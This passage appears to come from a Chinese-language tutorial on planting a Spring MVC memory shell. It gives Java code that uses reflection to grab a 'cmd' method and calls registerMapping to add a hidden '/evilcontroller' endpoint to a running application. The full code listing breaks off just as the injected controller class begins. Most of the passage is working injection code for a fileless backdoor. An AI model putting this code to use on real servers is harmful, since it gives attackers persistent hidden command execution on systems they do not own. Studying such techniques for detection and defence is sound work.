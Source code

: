 
反射获取shell方法

```java
Method method = InjectedController.class.getMethod("cmd");
```

调用ReqgistryMapping注册

```java
requestMappingHandlerMapping.registerMapping(info, injectedController, method);
```

### 测试：

* 完整代码

```java
package org.example.springmvc;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;
import java.util.Scanner;

@RestController
public class InjectController {
    @RequestMapping("/inject")
    public String inject() throws Exception{
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        Method method = InjectedController.class.getMethod("cmd");

        PatternsRequestCondition url = new PatternsRequestCondition("/evilcontroller");

        RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();

        RequestMappingInfo info = new RequestMappingInfo(url, condition, null, null, null, null, null);

        InjectedController injectedController = new InjectedController();

        requestMappingHandlerMapping.registerMapping(info, injectedController, method);

        return "Inject done";
    }

    @RestController
    public class InjectedController {
```